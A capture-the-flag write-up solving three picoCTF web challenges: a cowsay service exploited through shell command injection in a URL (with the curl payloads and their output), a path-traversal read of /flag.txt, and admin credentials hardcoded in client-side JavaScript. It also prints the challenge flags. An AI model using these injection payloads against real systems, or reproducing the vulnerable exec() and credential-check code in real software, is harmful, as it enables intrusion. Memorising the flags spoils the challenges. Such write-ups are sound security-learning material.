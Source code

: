 # cass

**Flag:** `picoCTF{moooooooooooooooooooooooooooooooooooooooooooooooooooooooooooo0o}`

We're given a [website](https://caas.mars.picoctf.net/) where we can enter a message and have it be output by cowsay. We're also given an `index.js` file with the following contents

```js
const express = require('express');
const app = express();
const { exec } = require('child_process');

app.use(express.static('public'));

app.get('/cowsay/:message', (req, res) => {
    exec(`/usr/games/cowsay ${req.params.message}`, {timeout: 5000}, (error, stdout) => {
        if (error) return res.status(500).end();
        res.type('txt').send(stdout).end();
    });
});

app.listen(3000, () => {
    console.log('listening');
});
```

It turns out the service simply runs the `exec` command on whatever our message at the end of our url is. This is perfect for adding unwanted shell code. First, we inject `ls` to see the list of all the files in the home directory


```
~ $ curl "https://caas.mars.picoctf.net/cowsay/test;ls"
 ______
< test >
 ------
        \   ^__^
         \  (oo)\_______
            (__)\       )\/\
                ||----w |
                ||     ||
Dockerfile
falg.txt
index.js
node_modules
package.json
public
yarn.lock
```

We find a file `falg.txt`, presumably containing the desired flag. Running `curl` once again, this time trying to output the contents of `falg.txt` using `cat`, we find that is indeed the case

```
~ $ curl "https://caas.mars.picoctf.net/cowsay/test;cat<falg.txt"
 ______
< test >
 ------
        \   ^__^
         \  (oo)\_______
            (__)\       )\/\
                ||----w |
                ||     ||
picoCTF{moooooooooooooooooooooooooooooooooooooooooooooooooooooooooooo0o}
```

# Forbidden Paths

**Flag:** `picoCTF{7h3_p47h_70_5ucc355_e5a6fcbc}`

Here, the flag is given in the file `/flag.txt`, but absolute paths are not allowed to be entered. We know an nginx website is stored at `/usr/share/nginx/html/`, so we use relative file paths to traverse to the file.

![The input](../Images/input.jpg)

Since we are four levels deep in the root directory, we use `../` four times.

![The flag](../Images/path_flag.jpg)

So the flag turns out to be `picoCTF{7h3_p47h_70_5ucc355_e5a6fcbc}`.

# Local Authority

**Flag:** `picoCTF{j5_15_7r4n5p4r3n7_05df90c8}`

We are given a website `http://saturn.picoctf.net:50920/`, which opens to a login page.

![Portal](../Images/login_portal.jpg)

We open our browser's network tab and enter meaningless data in the input fields. After that we open the request titled `secure.js` and go into its *Response* tab.


![Response](../Images/login_response.gif)


We find the following (very insecure!) JavaScript code that checks whether the username and password are that of the admin's or not

```js
function checkPassword(username, password)
{
  if( username === 'admin' && password === 'strongPassword098765' )
  {
    return true;
  }
  else
  {
    return false;
  }
}
```

Therefore, the username we need is `admin` and the password `strongPassword098765`. Using these details, we successfully log in and acquire the flag.

![Login](../Images/login_successful.gif)

